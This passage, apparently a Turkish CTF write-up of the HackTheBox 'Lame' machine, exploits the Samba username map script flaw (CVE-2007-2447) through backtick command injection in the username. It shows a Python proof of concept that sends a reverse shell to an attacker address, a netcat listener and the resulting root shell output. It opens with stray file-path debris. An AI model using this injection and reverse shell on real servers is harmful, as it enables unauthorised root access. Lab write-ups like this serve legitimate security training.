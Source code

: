 Yani temel olarak Linux'ta  ` `  ifadeleri, komutu çalıştırıp çıktısını yerine koymak için kullanılır, tıpkı `$()` gibi. Görünüşe göre Samba, bunu kullanıcı adı içinde yapmaya izin veriyor. Metasploit ise `nohup` (komutu mevcut bağlamın dışında çalıştıran bir araç) kullanarak ardından bir payload çalıştırıyor.
```


#### smbclient Fails

Bunu smbclient ile deneyeceğim. 443'te bir nc listener başlatacağım. Paylaşıma smbclient //10.10.10.3/tmp kullanarak bağlanabiliyorum. Önce bir kullanıcı belirtmeyi denedim:

![Pasted image 20250205204058.png](/img/user/Pasted%20image%2020250205204058.png)

![Pasted image 20250205204359.png](/img/user/Pasted%20image%2020250205204359.png)

listener'la bir bağlantı kurdum:

![Pasted image 20250205204407.png](/img/user/Pasted%20image%2020250205204407.png)

```
Ne yazık ki, bu benim local kutumdan. Bash'ım bağlantıyı göndermeden önce    ` ` komutunu çalıştırıyor. “ ile ' yi değiştireceğim:
```

Bazı nedenlerden dolayı, komutun başlangıcı büyük harfle yazılıyor ve bu da yürütmeyi bozuyor.

![Pasted image 20250205204531.png](/img/user/Pasted%20image%2020250205204531.png)


#### smbclient success

Görünüşe göre smbclient üzerinden giriş yapmanın başka bir yolu daha var ve bu, logon komutuyla bağlandıktan sonra kullanıcıları değiştirmek için kullanılıyor (şifre sorulduğunda sadece enter tuşuna basıyorum):

![Pasted image 20250205204711.png](/img/user/Pasted%20image%2020250205204711.png)

![Pasted image 20250205204728.png](/img/user/Pasted%20image%2020250205204728.png)

### Python Script

Biraz Google araması beni bu açık için bir Python POC içeren bu GitHub'a yönlendirdi. “ Install” talimatlarını izleyerek ve ardından scripti çalıştırarak kolayca bir shell elde edebilirim:

![Pasted image 20250205204847.png](/img/user/Pasted%20image%2020250205204847.png)

```
root@kali# python usermap_script.py 10.10.10.3 139 10.10.16.9 443
[*] CVE-2007-2447 - Samba usermap script
[+] Connecting !
[+] Payload was sent - check netcat !
```

Elbette, Lame'den bir shell aldım:

```
root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.3.
Ncat: Connection from 10.10.10.3:44666.
id
uid=0(root) gid=0(root)